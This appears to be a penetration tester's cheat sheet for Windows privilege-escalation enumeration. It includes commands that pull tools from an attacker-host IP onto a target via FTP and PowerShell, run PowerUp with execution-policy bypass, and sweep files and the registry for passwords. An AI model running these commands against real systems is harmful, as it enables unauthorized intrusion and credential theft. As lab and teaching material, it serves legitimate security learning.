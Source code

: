 ## Automated Enumeration Scripts

### Quick Start

I have some privesc check files loaded in /ftphome/winprivesc that can be downloaded on the target.  

#### Getting with FTP

Remember to start the FTP server on Linux

```bash
sudo go_ftp.sh
```

Then run this on the target to download the scripts:

```powershell
echo open 192.168.119.216 21> ftp.txt
echo USER rock>> ftp.txt
echo roll>> ftp.txt
echo cd winprivesc >> ftp.txt
echo passive >> ftp.txt
echo bin >> ftp.txt
echo GET accesschk.exe >> ftp.txt
echo GET windows-privesc-check2.exe >> ftp.txt
echo GET win_enum_local.exe >> ftp.txt
echo GET winPEAS.bat >> ftp.txt
echo GET Get-System.ps1 >> ftp.txt
echo GET Invoke-PrivescCheck.ps1 >> ftp.txt
echo GET PowerUp.ps1 >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
del ftp.txt

```

#### Getting with Powershell

If FTP isn't working, you can host the files on a webserver and use Powershell to get them instead:

```powershell
mkdir c:\temp
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216:80/accesschk.exe','C:\temp\accesschk.exe')"
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216:80/windows-privesc-check2.exe','C:\temp\windows-privesc-check2.exe')"
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216:80/win_enum_local.exe','C:\temp\win_enum_local.exe')"
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216:80/winPEAS.bat','C:\temp\winPEAS.bat')"
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216:80/Get-System.ps1','C:\temp\Get-System.ps1')"
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216:80/PowerUp.ps1','C:\temp\PowerUp.ps1')"
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216:80/Invoke-PrivescCheck.ps1','C:\temp\Invoke-PrivescCheck.ps1')"

powershell -ExecutionPolicy Bypass -File c:\temp\PowerUp.ps1
```

### Frizb Scripts

https://github.com/frizb/Windows-Privilege-Escalation/blob/master/winreconstreamline.bat

```powershell
cd\
net config Workstation  > report.txt
systeminfo >> report.txt
net users >> report.txt
ipconfig /all >> report.txt
route print >> report.txt
arp -A >> report.txt
netstat -ano >> report.txt
netsh firewall show state >> report.txt  
netsh firewall show config >> report.txt
schtasks /query /fo LIST /v >> report.txt
tasklist /SVC >> report.txt
net start >> report.txt
DRIVERQUERY >> report.txt
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
findstr /si password *.xml *.ini *.txt >> report.txt
reg query HKLM /f password /t REG_SZ /s >> report.txt
reg query HKCU /f password /t REG_SZ /s >> report.txt
cd\"Program Files"
dir /s *.exe *.ini >> ..\report.txt
cd\"Program Files (x86)"
dir /s *.exe *.ini >> ..\report.txt
cd\
```



### WinPEAS

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

Copy the bat or exe to the target and run it.  You can manually redirect the output to a file if desired.

For info on findings:  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation

For info on Privilege Escalation methods:  https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

### win_enum_local

https://github.com/sn0wfa11/win_enum_local

This is designed to work on Windows XP to 10, and avoids the use of WMIC for Windows XP's sake.

### J.A.W.S.

https://github.com/411Hall/JAWS

Powershell only enumeration script, uses PS 2.0 so it works with Windows 7 and up.

### PrivescCheck 

Does not use any 3rd party tools

https://hakin9.org/privesccheck-privilege-escalation-enumeration-script-for-windows/

### PowerSploit (aka PowerUp)

PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

Usage:

```powershell
powershell.exe -nop -exec bypass
Import-Module .\PowerUp.ps1
# Run all relevant checks and dump to a file
Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
```

